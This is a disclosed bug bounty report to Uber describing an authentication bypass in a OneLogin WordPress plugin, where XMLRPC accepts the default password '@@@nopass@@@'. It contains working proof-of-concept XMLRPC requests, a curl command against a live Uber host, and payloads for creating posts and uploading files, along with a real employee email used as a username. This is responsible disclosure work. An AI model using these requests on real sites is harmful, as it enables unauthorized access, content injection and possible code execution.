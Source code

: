 # OneLogin authentication bypass on WordPress sites via XMLRPC

## Report Details
- **Report ID**: 138869
- **URL**: https://hackerone.com/reports/138869
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-15T00:03:20.825Z
- **Disclosed**: 2016-07-15T22:04:09.271Z

## Reporter
- **Username**: jouko
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
When a user logs on one of your WordPress sites via OneLogin, the authentication plugin creates a new entry in the WordPress user database with the default password `@@@nopass@@@`. This wouldn't be a problem if the plugin disabled all normal WordPress authentication methods, but it doesn't.

The OneLogin plugin does prevent logins through the normal *wp-login.php* page but fails to restrict the XMLRPC API. XMLRPC still honors the WordPress internal user database. Depending on the plugin settings, also the normal login page can be used with URL parameters: `wp-login.php?normal=1`. The settings did not allow this on the Uber sites I tried.

An attacker can exploit this bug by performing XMLRPC functions such as create new pages or posts and upload files. The attacker has to guess or know a username that has a default password and sufficient privileges to execute the operation. I haven't done an exhaustive test of all functions but some of them could probably be used to achieve remote code execution (e.g. creating posts containing JavaScript).

This probably affects most of your WordPress sites. I've confirmed this on *love.uber.com* and *newsroom.uber.com* by creating pages and posts (not public) and uploading files.

The XMLRPC system supports about 80 functions by default. Almost all of them require authentication. Plugins may add their own functions. Some of the function names:
~~~~
wp.deleteFile
wp.editComment
wp.getOptions
wp.getUsers
wp.newPage
wp.newPost
wp.setOptions
wp.uploadFile
~~~~
#Reproducing#
Create an XML file named `options.xml` containing:
~~~~ xml
<?xml version="1.0"?>
<methodCall>
<methodName>wp.getOptions</methodName>
<params>
	<param><value>zzz</value></param>
        <param><value>cbarry@uber.com</value></param>
        <param><value>@@@nopass@@@</value></param>
</params>
</methodCall>
~~~~
Run the UNIX command:
~~~~ sh
curl 'https://newsroom.uber.com/xmlrpc.php' --data-binary "`cat options.xml`" -H 'Content-type: application/xml'
~~~~
You should get the response:
~~~~ xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <struct>
  <member><name>software_name</name><value><struct>
  <member><name>desc</name><value><string>Software Name</string></value></member>
  <member><name>readonly</name><value><boolean>1</boolean></value></member>
  <member><name>value</name><value><string>WordPress</string></value></member>
</struct></value></member>
  <member><name>software_version</name><value><struct>
  <member><name>desc</name><value><string>Software Version</string></value></member>
  <member><name>readonly</name><value><boolean>1</boolean></value></member>
  <member><name>value</name><value><string>4.4.3</string></value></member>
</struct></value></member>
  <member><name>blog_url</name><value><struct>
  <member><name>desc</name><value><string>WordPress Address (URL)</string></value></member>
  <member><name>readonly</name><value><boolean>1</boolean></value></member>
  <member><name>value</name><value><string>https://newsroom.uber.com</string></value></member>
...etc.
~~~~
#Exploit scenarios#
Options in the above output that aren't marked *readonly* can also be changed. I didn't check if this is exploitable.

For usernames in these PoCs I used some *@uber.com email addresses I saw while testing previous bugs. They would be relatively easily guessable/findable for an attacker who doesn't have this information.

A new post can be created with the following request. Without supplying a `post_status` parameter it will be saved as a draft, otherwise it will be published. It's also possible to create private posts too, e.g. for XSS-type attacks targeting administrators. The ability to create pages or posts depends on the user's privileges.
~~~~ xml
<?xml version="1.0"?>
<methodCall>
<methodName>wp.newPost</methodName>
<params>
        <param><value>what is this parameter</value></param>
        <param><value>(INSERT USERNAME)</value></param>
        <param><value>@@@nopass@@@</value></param>
        <param><struct>
                <member><name>post_title</name><value>bugbounty test post</value></member>
                <member><name>post_content</name><value>any HTML content here</value></member>
                <member><name>post_excerpt</name><value>excerpt</value></member>
        </struct></param>
</params>
</methodCall>
~~~~
I've created some pages/posts on the said systems. As I saved them as drafts they can't be seen by normal users, but should be visible to administrators:
* https://love.uber.com/australia/?page_id=6085
* https://newsroom.uber.com/us-new-york/?p=2567

A file can be uploaded with a request like this:
~~~~ xml
<?xml version="1.0"?>
<methodCall>
<methodName>metaWeblog.newMediaObject</methodName>
<params>
        <param><value>what is this parameter</value></param>
        <param><value>(INSERT USERNAME)</value></param>
        <param><value>@@@nopass@@@</value></param>
        <param><struct>
                <member><name>name</name><value>file_name.html</value></member>
                <member><name>type</name><value>text/plain</value></member>
                <member><name>bits</name><value>file contents, any data format XML-encoded</value></member>
        </struct></param>
</params>
</methodCall>
~~~~
The ability to upload files and the allowed file extensions depend on the user privileges and WordPress settings.

As a PoC I uploaded a file: https://love.uber.com/wp-content/uploads/sites/5/2016/05/fooasfasfgdg.key
I tried a few file extensions but most were denied on that server. Depending on the server and WordPress configuration and the user's privileges, this may be used to perform various attacks such as XSS via *.html or *.swf or theoretically even direct RCE if the web server handles some of the allowed file formats as scripts or executables. 

## Attachments
No attachments
